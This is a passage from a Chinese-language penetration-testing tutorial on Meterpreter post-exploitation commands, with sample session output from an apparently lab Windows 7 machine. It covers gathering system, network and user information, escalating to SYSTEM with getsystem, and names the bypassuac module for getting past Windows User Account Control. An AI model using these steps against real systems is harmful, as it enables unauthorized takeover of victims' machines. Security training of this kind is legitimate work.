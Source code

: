 ### System Information（系统信息）
`sysinfo` 命令可让您检索有关被利用机器的信息：名称、操作系统、架构、系统语言和它正在运行的 Meterpreter 版本。

```
meterpreter > sysinfo
Computer        : ELS
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64 (Current Process is WOW64)
System Language : en_US
Meterpreter     : x64/win32
meterpreter >
```

### Network Configuration（网络配置）
`ifconfig` 命令打印网络配置。

```
meterpreter > ifconfig
```

### Routing Information（路由信息）
您可以使用 `route` 命令检查路由信息。

```
meterpreter > route
```

### Current User（当前用户）
要知道哪个用户正在运行 Metasploit 利用的进程，可以使用 `getuid` 命令。

```
meterpreter > getuid
Server username: els\els
meterpreter >
```

### Privilege Escalation（权限提升）
如果进程的所有者在受害系统上没有高权限，则可以使用 `getsystem` 命令。 此命令在目标机器上运行特权升级例程。 在 Windows 环境中，`system`用户在机器上拥有**最高权限**。

```
meterpreter > getsystem
...got system (via technique 1).
```

#### Bypassing UAC（绕过 UAC）
请注意，在现代 Windows 操作系统中，**用户帐户控制**策略可防止权限提升。

```
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: The environment is incorrect.
```

您可以使用 `bypassuac` 模块绕过该限制。
